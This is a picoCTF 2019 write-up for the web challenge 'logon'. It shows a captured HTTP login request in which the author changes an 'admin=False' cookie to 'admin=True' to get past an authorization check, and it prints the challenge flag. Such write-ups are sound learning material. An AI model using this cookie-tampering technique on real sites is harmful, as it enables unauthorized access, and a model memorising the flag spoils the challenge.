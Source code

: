 # logon
Description: The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at?

Category: Web Exploitation, 100 points.

Original Event: picoCTF 2019

## Solution
The problem provides us with a link which when visited, displays a typical login page with a field for a username and password. The description of the problem hints at the username 'Joe". Let's try that first.
Inputting 'Joe' into the username field and leaving the password empty yields a page with a large red box showing the words: "I'm sorry Joe's password is super secure. You're not getting in that way". 
However, it seems like the site only scans the password of Joe, as you can login without a password by using any other username. Doing this yields a page with a green box stating "Success: You logged in! Not sure you'll be able to see the flag though.", and a gray box stating "No flag for you".

Using BurpSuite's HTTP History, we can see the login request: 
```http
GET /problem/15796/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=; username=ratticus; admin=False
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://jupiter.challenges.picoctf.org/problem/15796/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
The username and password cookies are predictable, but there is a third cookie, "admin=False". We can send this login request over to BurpSuite's Repeater to edit and re-forward it.

Changing line 3 of the request to:
```http
Cookie: password=; username=ratticus; admin=True
```
and forwarding the request gives us a new page, now with the green box removed and the gray box proudly displaying the flag.

### Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
